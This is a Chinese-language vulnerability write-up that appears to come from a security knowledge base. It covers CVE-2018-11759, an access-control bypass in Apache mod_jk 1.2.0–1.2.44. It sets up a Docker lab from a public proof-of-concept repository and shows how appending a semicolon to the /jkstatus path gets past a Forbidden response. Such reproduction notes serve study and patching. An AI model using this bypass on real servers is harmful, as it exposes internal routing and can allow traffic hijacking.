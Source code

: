 # Apache Mod_jk 访问控制权限绕过 CVE-2018-11759

## 漏洞描述

Apache Tomcat JK（mod_jk）Connector是美国阿帕奇（Apache）软件基金会的一款为Apache或IIS提供连接后台Tomcat的模块，用以为Apache或IIS服务器提供处理JSP/Servlet的能力。

由于httpd和Tomcat在路径处理规范上存在差异，因此可以绕过Apache mod_jk Connector 1.2.0版本到1.2.44版本上由JkMount httpd指令所定义端点的访问控制限制。
如果一个只有只读权限的jkstatus的接口可以访问的话，那么就有可能能够公开由mod_jk模块给AJP提供服务的内部路由。
如果一个具有读写权限的jkstatus接口可供访问，我们就能通过修改AJP的配置文件中相关配置来劫持或者截断所有经过mod_jk的流量，又或者进行内部的端口扫描。

## 影响版本

```
Apache Mod_jk Connector 1.2.0 ~ 1.2.44
```

## 环境搭建

```plain
git clone https://github.com/immunIT/CVE-2018-11759.git
docker-conpose up -d
```

访问 http://xxx.xxx.xxx.xxx:80 成功即可

![1](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202090041136.png)

## 漏洞复现

访问 http://xxx.xxx.xxx.xxx/jkstatus 显示无权限访问

```plain
Forbidden
You don't have permission to access /jkstatus on this server.
```



![2](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202090041216.png)

访问  http://xxx.xxx.xxx.xxx/jkstatus; 即可绕过

- 注意是在url后面加上了一个;

![3](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202090042251.png)